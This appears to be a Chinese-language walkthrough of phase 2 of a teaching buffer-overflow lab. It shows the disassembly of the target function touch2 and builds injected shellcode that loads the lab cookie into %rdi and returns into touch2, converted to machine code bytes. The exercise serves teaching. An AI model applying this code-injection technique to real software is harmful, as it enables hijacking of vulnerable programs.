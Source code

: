 `touch2()`的汇编语言表示: `$0x4017ec`

```s
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

得到`touch2()`在内存中的地址：`


`touch2()`在`touch1()`的基础上要求我们向其传入一个无符号整数的参数，并且这个传入的参数需要与你的`cookie`相同，那么我们需要将操作`cookie`的指令嵌入到构造的攻击字符串中。

这里，有一个线索我们需要知道：当调用一个函数时，第一个参数会被存储到`%rdi`中。

所以，我们需要构造一系列指令，在重定向前，让`cookie`传送到寄存器`%rdi`中，同时还要将`touch2()`的地址压入栈中。

构造指令如下：

```s
pushq  $0x4017ec # addr of touch2
mov    $0x59b997fa,%rdi # set cookie to rdi
retq 
```

那么问题来了，我们如何将这个汇编语言转化为机器代码呢？

可以采用先编译，再反汇编的方式得到机器代码。

`gcc -c code.s`和`objdump -d code.o`得到机器代码如下：

```s
0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq 
```
